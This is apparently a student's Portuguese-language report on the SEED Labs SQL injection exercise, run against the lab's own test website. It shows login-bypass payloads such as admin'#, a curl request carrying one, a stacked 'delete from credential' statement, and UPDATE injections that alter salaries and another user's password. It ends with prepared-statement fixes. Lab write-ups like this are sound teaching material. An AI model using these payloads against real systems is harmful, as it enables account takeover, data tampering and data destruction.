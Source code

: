 _Samuel Cavalcanti_

# Relatório SQL Injection 


- __Task 1: Get Familiar with SQL Statements__

!["where alice"](where_alice.png)

- __Task 2.1: SQL Injection Attack from webpage__

Resposta: Username, pois ao contrário da senha ele usa exatamente o que eu digitar no comando MYSQL.

o commando digitado foi:
```sql
admin'# 
```
dessa forma ele vai buscar pelo nome admin e com o # vai ignorar a verificação do password.


- __Task 2.2: SQL Injection Attack from command line__

Resposta:

```bash
curl -G -v http://www.seedlabsqlinjection.com/unsafe_home.php --data-urlencode "username=admin'#" --data-urlencode "Password=123"
```

- __Task 2.3: Append a new SQL statement__.

Resposta:

Tentei diferentes statements: 
```sql
admin'; delete from credential;#
admin'; select * from credential; #
admin'; insert into credential (ID,Name,EID,Salary,birth,SSN) Values(7,'Samuel',700000,30000,"4/27",123123123);
```

mas todos falharam não sei o por que.


- __Task 3.1: Modify your own salary__


resposta:

primeiro alterei o nickname para Al

!["nick modif"](al.png)


segundo, eu parti do principio que não sabia o nome da coluna de ids  então  chutei que o mesmo nome NickName também era no formulário e deu certo.

```sql
',salary=5000000 where NickName='Al';#
```

!["change My Salary"](changeMySalary.png)


- __Task 3.2: Modify other people’ salary__

Primeiro descubro o Employee ID de boby , uma das maneiras é usar a falha de segurança do admin.

![](eid_boby.png)


Segundo, utilizo o sql injection que anteriormente utilizei para alterar meu salário, agora utilizo para alterar o de bob assim:

```sql
',salary=1 where eid=20000';#
```

ficando assim: 

!["good bye boby's money"](ja_era_boby.png)


- __Task 3.3: Modify other people’ password__

Devido a falha de segurança da tarefa 2.1, não preciso da senha para entrar na conta de ninguém. então...

Primeiro logo no admin 

![](eid_boby.png)

pego o username do boby que é boby. logo na conta do boby:
```sql
boby'#
```

Como o sistema não pergunta a senha antiga para gerar uma nova então simplesmente troco a senha dele para 123456

![](lost_password.png)

- __Task 4: Countermeasure — Prepared Statement__

Contra medidas no __unsafe_home.php__
```php
 function getDB() {
        $dbhost="localhost";
        $dbuser="root";
        $dbpass="seedubuntu";
        $dbname="Users";
        // Create a DB connection
        $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
        if ($conn->connect_error) {
          echo "</div>";
          echo "</nav>";
          echo "<div class='container text-center'>";
          die("Connection failed: " . $conn->connect_error . "\n");
          echo "</div>";
        }
        return $conn;
      }

      // create a connection
      $conn = getDB();

      $stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
      FROM credential
      WHERE name = ? and password = ? ");
      // Bind parameters to the query
      $stmt->bind_param("ss", $input_uname, $hashed_pwd);
      $stmt->execute();
      $stmt->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
      $stmt->fetch();

      if($id!=""){
        // If id exists that means user exists and is successfully authenticated
        drawLayout($id,$name,$eid,$salary,$birth,$ssn,$pwd,$nickname,$email,$address,$phoneNumber);
      }else{
        // User authentication failed
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        echo "<div class='alert alert-danger'>";
        echo "The account information your provide does not exist.";
        echo "<br>";
        echo "</div>";
        echo "<a href='index.html'>Go back</a>";
        echo "</div>";
        return;
      }
      // close the sql connection
      $conn->close();
```


Contra medidas no __unsafe_edit_backend.php__

```php
function getDB() {
    $dbhost="localhost";
    $dbuser="root";
    $dbpass="seedubuntu";
    $dbname="Users";
    // Create a DB connection
    $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
    if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error . "\n");
    }
    return $conn;
  }

  $conn = getDB();
  // Don't do this, this is not safe against SQL injection attack
  $sql="";
  if($input_pwd!=''){
    // In case password field is not empty.
    $hashed_pwd = sha1($input_pwd);
    //Update the password stored in the session.
    $_SESSION['pwd']=$hashed_pwd;

    $stmt = $conn->prepare( "UPDATE credential SET nickname=?,email=?,address=?,Password=?,PhoneNumber=? where ID=?;");
    $stmt->bind_param("sssssi", $input_nickname,$input_email,$input_address,$hashed_pwd,$input_phonenumber,$id);

  }else{
    // if passowrd field is empty.
    $stmt = $conn->prepare( "UPDATE credential SET nickname=?,email=?,address=?,PhoneNumber=? where ID=?;");
    $stmt->bind_param("ssssi", $input_nickname,$input_email,$input_address,$input_phonenumber,$id);
    
   
  }
  $stmt->execute();
  // $conn->query($sql);
  // $conn->close();
  header("Location: unsafe_home.php");
  exit();
```